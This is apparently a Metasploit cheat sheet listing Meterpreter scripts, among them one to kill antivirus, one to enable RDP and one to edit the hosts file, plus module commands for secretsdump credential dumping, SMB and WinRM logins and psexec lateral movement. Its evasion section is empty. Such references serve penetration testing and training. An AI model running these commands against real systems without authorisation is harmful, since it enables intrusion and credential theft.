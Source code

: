 | Scriptname        | Action                            |
| ----------------- | --------------------------------- |
| checkvm           | check if target system is a VM    |
| getcountermeasure | checks security settings          |
| getgui            | try to enable RDP                 |
| get_local_subnets | list local subnets                |
| gettelnet         | enable telnet                     |
| hostsedit         | edit the hosts file               |
| killav            | try to kill antivirus             |
| remotewinenum     | enumerate system information      |
| scraper           | enumerate more system information |
| winenum           | detailed windows enumeration      |

## Modules

### Auxiliary
#### SMB
##### Impacket Secretsdump

```ruby
use scanner/smb/impacket/secretsdump
set RHOSTS 192.168.1.1
set SMBDOMAIN domain
set SMBUSER user
set SMBPASS pass
```

##### SMB Login
```ruby
use scanner/smb/smb_login
auxiliary(scanner/smb/smb_login) > run CreateSession=true RHOSTS=172.14.2.164 RPORT=445 SMBDomain=windomain.local SMBPass=password SMBUser=username
sessions -i 1
```

#### WinRM
##### WinRM_Login
```ruby
use scanner/winrm/winrm_login
run CreateSession=true RHOSTS=172.14.2.164 SMBDomain=windomain.local SMBPass=password SMBUser=username
```

### Evasion
#### Windows Defender Exe
```ruby
set 
```
### Post
#### SMB PsExec
```ruby
use exploit/windows/smb/psexec
set rhost 127.0.0.1
set smbuser mega-admin
set smbpass p4ss
```